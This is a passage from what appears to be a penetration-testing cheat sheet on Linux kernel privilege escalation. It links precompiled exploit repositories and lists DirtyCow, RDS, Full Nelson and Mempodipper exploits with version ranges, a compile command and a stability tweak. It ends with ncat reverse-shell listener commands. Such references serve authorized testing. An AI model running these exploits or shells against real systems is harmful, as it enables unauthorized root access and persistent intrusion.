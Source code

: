 Precompiled exploits can be found inside these repositories, run them at your own risk !
* [bin-sploits - @offensive-security](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)
* [kernel-exploits - @lucyoa](https://github.com/lucyoa/kernel-exploits/)

The following exploits are known to work well, search for more exploits with `searchsploit -w linux kernel centos`.

Another way to find a kernel exploit is to get the specific kernel version and linux distro of the machine by doing `uname -a`
Copy the kernel version and distribution, and search for it in google or in https://www.exploit-db.com/.

### CVE-2016-5195 (DirtyCow)

Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8

```powershell
# make dirtycow stable
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
```

### CVE-2010-3904 (RDS)

Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8

```powershell
https://www.exploit-db.com/exploits/15285/
```

### CVE-2010-4258 (Full Nelson)

Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04)

```powershell
https://www.exploit-db.com/exploits/15704/
```

### CVE-2012-0056 (Mempodipper)

Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)

```powershell
https://www.exploit-db.com/exploits/18411
```

# Linux - Persistence

## Basic reverse shell

```bash
ncat --udp -lvp 4242
ncat --sctp -lvp 4242
ncat --tcp -lvp 4242
```
